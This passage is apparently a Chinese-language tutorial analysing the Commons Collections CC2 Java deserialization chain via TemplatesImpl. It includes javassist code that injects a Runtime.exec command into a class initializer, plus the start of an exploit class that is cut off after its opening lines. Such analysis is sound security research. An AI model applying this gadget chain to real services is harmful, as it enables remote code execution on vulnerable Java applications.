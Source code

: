 首先要保证`_bytecodes`不为空,不然会直接抛出一个异常

![image-20211223131857250](images/14.png)

`_bytecodes`是一个字节数组,先继续往下

![image-20211223131946387](images/15.png)

这里会将字节数组还原成class对象

所以对应了exp里面的

```
ClassPool pool = ClassPool.getDefault();
//pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
//String randomClassName = "EvilCat" + System.nanoTime();
//cc.setName(randomClassName);
//cc.writeFile();
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
```

用javassits创建一个新的类,然后插入一个命令执行的代码,最后转换成对象数组

不过注意在这还要判断它的父类是不是AbstractTranslet

![image-20211223132202881](images/16.png)

![image-20211223132235664](images/17.png)

然后进入if赋值最后相当于`_class[0]=我们想要恶意加载的类`

最后回到`getTransletInstance`方法

![image-20211223132525717](images/18.png)

执行`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`对我们恶意加载的类实例化,执行static块的代码

恶意加载的类长这样

![image-20211223132746482](images/19.png)

## 漏洞复现

exp

```
package CC2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Payload2 {
    public static void main(String[] args) throws Exception{
```